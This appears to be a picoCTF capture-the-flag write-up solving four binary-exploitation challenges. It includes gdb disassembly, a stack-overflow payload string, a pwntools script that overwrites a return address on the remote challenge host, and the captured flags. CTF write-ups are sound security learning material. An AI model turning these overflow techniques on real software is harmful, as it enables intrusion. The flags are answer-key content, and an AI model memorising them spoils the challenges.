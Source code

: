 ## buffer overflow 0
This program has the vulnerable **gets**  and the **strcpy** funtion for reading and copying the buffer respectively. From the program we can notice that it has a special signal handler to handle **SIGSEGV** signals i.e. segmentation fault errors. 
```
signal(SIGSEGV, sigsegv_handler);
```
```
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```
From this we can see that any segmentation fault will cause the program to print the flag.So we just overflow the inptu buffer to get the flag.   
![alt text](image.png)  
Flag: **picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}**  


## Picker IV
Compared to **Picker III**, this one is easier. The program itself asks us to give it a location to jump to.  
![alt text](image-1.png)  
Looking at the source code, we see that the program has the ***win*** function to print out the flag. Let's open it in gdb and find the location of this function and make it jump to that location.
```
(gdb) disassemble win
Dump of assembler code for function win:
   0x000000000040129e <+0>:     endbr64 
   0x00000000004012a2 <+4>:     push   rbp
   0x00000000004012a3 <+5>:     mov    rbp,rsp
   0x00000000004012a6 <+8>:     sub    rsp,0x10
   0x00000000004012aa <+12>:    lea    rdi,[rip+0xd74]        # 0x402025
   0x00000000004012b1 <+19>:    call   0x4010f0 <puts@plt>
   0x00000000004012b6 <+24>:    lea    rsi,[rip+0xd71]        # 0x40202e
   0x00000000004012bd <+31>:    lea    rdi,[rip+0xd6c]        # 0x402030
```
```
Enter the address in hex to jump to, excluding '0x': 40129e                    
You input 0x40129e
You won!
Cannot open file.
[Inferior 1 (process 49199) exited normally]
(gdb) q
```
Once we try the same on the instance, we get the flag.  
![alt text](image-2.png)  
Flag: **picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}**


## Local Target
Let's first try to smash the stack and see if we can modify the **num** variable.  
![alt text](image-3.png)  
We have managed to modify the **num** variable, now we need to find the exact offset position.  
After a little trial and error, we find the offset.  
![alt text](image-4.png)  
**1145324612 = 0x44444444 -> DDDD**  and since **65 -> 0x41 -> A**  
The final payload is: ***AAAAAAAAAAAAAAAABBBBCCCCA***  
![alt text](image-5.png)  
![alt text](image-6.png)  
Flag: **picoCTF{l0c4l5_1n_5c0p3_ee58441a}**  


## buffer overflow 1
We first try to smash the stack.  
![alt text](image-7.png)  
Now that we have our buffer, we need the address of the program to jump to.  
![alt text](image-8.png)  
All that is left is to create the payload.   
```
from pwn import *

padding = b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'  # 44 bytes

address = p32(0x080491f6)

host = "saturn.picoctf.net"
port = 54856
conn = remote(host, port)

payload = padding + address

conn.sendline(payload)

conn.interactive()
```
We run the program and get the flag.  
![alt text](image-9.png)  
Flag: **picoCTF{addr3ss3s_ar3_3asy_b15b081e}**  